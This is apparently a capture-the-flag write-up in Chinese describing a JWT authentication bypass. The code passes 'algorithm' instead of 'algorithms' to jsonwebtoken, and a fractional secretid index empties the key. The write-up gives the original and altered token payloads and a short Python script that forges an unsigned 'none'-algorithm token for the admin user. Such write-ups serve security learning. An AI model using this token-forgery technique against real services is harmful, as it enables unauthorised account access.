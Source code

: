 然后登录时解密第一部分，获得 JWT 中储存的信息，然后根据数组下标获得密钥，然后根据密钥解密数据，比对解密前后的用户名密码是否相同

这里存在的一个漏洞点是，在 JWT 的 jsonwebtoken 库中，接收的参数是 algorithms 而这里写的是 algorithm，这里跳过了验证

并且，当解密时没有密钥，同时加密方式为 none 的时候，会忽视后面的解密算法，按 none 方式解密

所以我们这里要把 JWT 信息解密后的数组下标替换成小数即可将密钥置空，之后就可以修改数值了

JWT 信息部分解密后为

```
{"secretid":4,"username":"111222","password":"111222"}
```

所以这里修改为

```
{"secretid":0.4,"username":"111222","password":"111222"}
```

之后通过脚本重新加密

```
import jwt

token = jwt.encode({"secretid":0.4,"username":"admin","password":"admin"},algorithm="none",key="").decode('utf-8')
print(token)
```

将 POST 数据包中的 authorization 内容替换即可以 admin 登录获取 flag